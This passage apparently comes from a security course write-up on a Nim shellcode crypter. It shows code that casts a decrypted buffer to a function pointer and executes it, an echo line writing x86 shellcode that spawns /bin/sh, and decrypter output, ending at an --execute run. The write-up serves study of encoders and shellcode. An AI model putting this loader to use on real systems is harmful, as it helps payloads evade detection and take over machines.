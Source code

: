     var shellcode_empty_array: array[1024, byte]

    for index, byte_value in decrypted_shellcode_bytes:
        shellcode_empty_array[index] = byte_value
    
    # get the address of the decrypted shellcode
    let shellcode_pointer = cast[ByteAddress](shellcode_empty_array.addr)
    
    # create a function pointing to this address
    var run_shellcode : (proc() {.cdecl, gcsafe.}) = cast[(proc() {.cdecl, gcsafe.})](shellcode_pointer)

    # in my case the function echo is based on fwrite, so you can set a
    #   breakpoint on fwrite if you want to check the shellcode:
    #       gef&gt; b *fwrite
    echo "[+] Running shellcode"
    run_shellcode()
</code></pre><p>To test this new piece of code, I've created a file named <code>shellcode.bin</code> containing the following shellcode (<code>execve</code> of <code>/bin/sh</code>):</p><pre><code class="language-bash">echo -ne "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80" &gt; shellcode.bin
</code></pre><p>If you were to compile the program <code>decrypter.nim</code> for 32-bit x86 systems, and execute it, it would spawn a <code>/bin/sh</code> shell, as shown below:</p><pre><code class="language-bash">rbct@debian11:~/slae32/assignment/7$ ./decrypter --input=/tmp/encrypted.bin --output=/tmp/decrypted.bin --key='0123456789abcdef'

# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 110, 47, 115, 104, 104, 47, 47, 98, 105, 176, 11, 137, 227, 49, 201, 49, 210, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin

rbct@debian11:~/slae32/assignment/7$ ./decrypter --input=/tmp/encrypted.bin --output=/tmp/decrypted.bin --key='0123456789abcdef' --execute
